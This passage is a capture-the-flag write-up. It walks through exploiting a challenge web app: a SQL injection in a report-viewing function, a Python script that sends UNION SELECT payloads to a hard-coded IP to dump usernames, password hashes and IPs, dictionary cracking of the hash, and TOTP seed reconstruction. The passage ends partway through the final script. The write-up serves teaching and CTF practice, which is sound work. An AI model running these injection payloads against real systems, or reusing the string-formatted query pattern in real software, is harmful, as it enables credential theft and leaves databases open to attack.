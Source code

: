 - The TOTP code is based on the first four characters of the username and the first octet of the ip-address of the user. 
- Theres an sql injection vulnerability in /csp/view (function get_csp_report(report_id))

>```python
>def get_csp_report(report_id):
>    cursor = mysql.connection.cursor()
>    cursor.execute(
>        "select * from reports where report_id = %s"% # uh-oh >:)
>        (report_id,)
>    )
>
>    return FetchOneAssoc(cursor)
>```
- The stored hash in the database is in the form sha256(username+password)

To make the sql injecting a little easier, i [wrote a python script](solution/sqli.py):

>```python
>
>import requests
>
>for i in range(0,5):
>	payload = "union all select concat(user_id,0x3a3a3a,user_name,0x3a3a3a,user_password,0x3a3a3a,user_ip,0x3a3a3a,user_image,0x3a3a3a,user_credits,0x3a3a3a,user_register_time),2,3 from users limit %d,1" % i
>	url = "http://54.210.118.179/csp/view/1 %s--" % payload
>	r = requests.get(url)
>	print r.text
>```

This will output

>```bash
>[...]
>{'report_ip': u'2', 'report_content': u'3', 'report_id': u'5:::donaldtrump:::22e59a7a2792b25684a43d5f5229b2b5caf7abf8fa9f186249f35cae53387fa3:::64.124.192.210:::http://steamcdn-a.akamaihd.net/steamcommunity/public/images/avatars/8e/8e559bd085bbddbf2f0a961ab23f2b989ccdd24e_full.jpg:::0:::0'}
>[...]
>```

Giving us the password-hash and ip-address of donaldtrump.

### Wrapping it up

By salvaging the methods generate_seed() and get_totp_key() from [utils.py](challenge/utils.py), we can generate the TOTP key from the ip-address and username.

The last thing we need is the password and by using one of the most simple john-the-ripper dictionaries we bruteforce the password.
When we have the password we can [generate the flag](solution/final.py) in the form md5($totp_key + $password)

>```python
>#!/usr/bin/env python
>import hashlib, pyotp,random, itertools, socket, struct, string
>
>#{'report_ip': u'2', 'report_content': u'3', 'report_id': u'5:::donaldtrump:::22e59a7a2792b25684a43d5f5229b2b5caf7abf8fa9f186249f35cae53387fa3:::64.124.192.210:::http://i.imgur.com/6ebAqqF.png:::0:::0'}
># We need to know the totp key, for that we need the seed:
>
>def generate_seed(username, ip_address):
>    return int(struct.unpack('I', socket.inet_aton(ip_address))[0]) + struct.unpack('I', username[:4].ljust(4,'0'))[0]
>
>def get_totp_key(seed):